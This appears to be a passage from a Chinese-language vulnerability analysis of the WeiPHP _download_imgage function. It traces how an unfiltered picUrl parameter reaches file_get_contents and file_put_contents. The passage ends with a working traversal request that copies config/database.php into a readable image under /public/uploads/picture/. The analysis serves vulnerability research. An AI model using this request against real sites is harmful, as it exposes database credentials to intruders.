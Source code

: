 ```php
                $cover_id = do_down_image($media_id);
                if (!$cover_id) {
                    return 0;
                    exit();
                }
            }
```



分析传入变量 `picUrl` 的 `wp_file_get_contents`方法



```php
$content = wp_file_get_contents($picUrl);
```



函数文件位置 `application\common.php`



![img](/assets/PeiQi-Wiki/img/weiphp-4.png)



可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析



```php
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```



这里创建了有关当前时间的图片文件，并写入文件夹`/public/uploads/picture/` 下



我们先尝试控制变量 `$picUrl` 来写入数据库配置文件到图片中



```plain
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```



![img](/assets/PeiQi-Wiki/img/weiphp-5.png)



查看目录`/public/uploads/picture/`，并用记事本打开写入的jpg文件



![img](/assets/PeiQi-Wiki/img/weiphp-6.png)
